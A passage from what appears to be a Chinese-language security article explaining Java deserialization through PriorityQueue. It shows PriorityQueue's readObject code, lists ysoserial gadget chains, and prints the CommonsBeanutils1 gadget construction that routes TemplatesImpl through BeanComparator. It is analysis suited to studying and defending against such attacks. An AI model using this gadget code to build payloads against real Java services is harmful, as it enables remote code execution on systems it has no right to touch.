 ### <a class="reference-link" name="PriorityQueue%E7%9A%84writeObject%E5%92%8CreadObject"></a>PriorityQueue的writeObject和readObject

PriorityQueue处理反序列化时比较简单，主要是两部分：读取元素个数来创建一个数组，并将元素读取后赋值给数组，这是一个初始队列，第二部分是调用heapify将队列进行最小堆排序。

```
private void writeObject(java.io.ObjectOutputStream s)
    throws java.io.IOException `{`
    // 调用ObjectOutputStream.defaultWriteObject写入PriorityQueue的可序列化属性信息
    s.defaultWriteObject();

    // 写入数组长度
    s.writeInt(Math.max(2, size + 1));

    // 按顺序写入队列所有元素
    for (int i = 0; i &lt; size; i++)
        s.writeObject(queue[i]);
`}`

private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException `{`
    //读取size及其他属性
    s.defaultReadObject();
   //读数组长度
    s.readInt();
    //创建一个长度为size的数组
    queue = new Object[size];
    //读取所有元素
    for (int i = 0; i &lt; size; i++)
        queue[i] = s.readObject();
    //排序
    heapify();
`}`
```



## 三、PriorityQueue和Gadget关系

ysoserial中以PriorityQueue作为反序列化入口的有：CommonsBeanutils1、CommonsCollections2、CommonsCollections4、BeanShell1、Jython1。

[![](https://p0.ssl.qhimg.com/t019c9285bca9b7d46c.png)](https://p0.ssl.qhimg.com/t019c9285bca9b7d46c.png)

### <a class="reference-link" name="CommonsBeanutils1%EF%BC%9A"></a>CommonsBeanutils1：

以PriorityQueue作为入口，以BeanComparator为Comparator比较器，调用BeanComparator.compare，BeanComparator.compare通过PropertyUtilsBean可调用Method.invoke。

```
final BeanComparator comparator = new BeanComparator("lowestSetBit");
final PriorityQueue&lt;Object&gt; queue = new PriorityQueue&lt;Object&gt;(2, comparator);
queue.add(new BigInteger("1"));
queue.add(new BigInteger("1"));
Reflections.setFieldValue(comparator, "property", "outputProperties");
final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
queueArray[0] = templates;
queueArray[1] = templates;
```
